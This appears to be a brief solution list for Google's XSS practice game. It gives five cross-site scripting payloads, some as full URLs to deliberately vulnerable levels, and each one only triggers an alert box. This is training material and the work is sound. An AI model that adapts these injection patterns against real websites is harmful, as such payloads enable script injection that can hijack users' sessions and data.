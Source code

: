 Challenge for the [Basics] XSS prevent quest !
1: https://xss-game.appspot.com/level1/frame?query=<script>alert("yeah")</script>
2: <img src=oui onerror=alert("yeah")>
3: https://xss-game.appspot.com/level3/frame#1'/><script>alert("yeah")</script>
4: https://xss-game.appspot.com/level4/frame?timer=1')%3Balert('1
5: https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("yeah")
